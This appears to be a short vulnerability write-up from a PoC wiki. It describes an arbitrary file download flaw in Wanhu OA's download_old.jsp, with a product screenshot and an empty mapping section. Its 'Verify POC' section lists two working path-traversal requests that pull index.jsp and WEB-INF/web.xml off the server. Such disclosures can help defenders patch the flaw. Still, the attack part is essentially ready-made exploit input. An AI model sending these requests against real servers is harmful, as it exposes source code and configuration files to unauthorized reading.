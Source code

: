 # Wanhu OA download_old.jsp any file download vulnerability

## Vulnerability Description

There is a vulnerability to download any file on Wanhu OA download_old.jsp file. The attacker can download any file on the server through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Ten thousand households OA </span>

## Network surveying and mapping



## Vulnerability reappears

Product Page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1631323798806-958050db-05f6-47ca-95b4-74487ee67a66-20220313174600224.png)

Verify POC

```javascript
/defaultroot/download_old.jsp?path=..&name=x&FileName=index.jsp
/defaultroot/download_old.jsp?path=..&name=x&FileName=WEB-INF/web.xml
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1646041831774-193db33c-c438-459e-918a-bdae1a1a1270.png)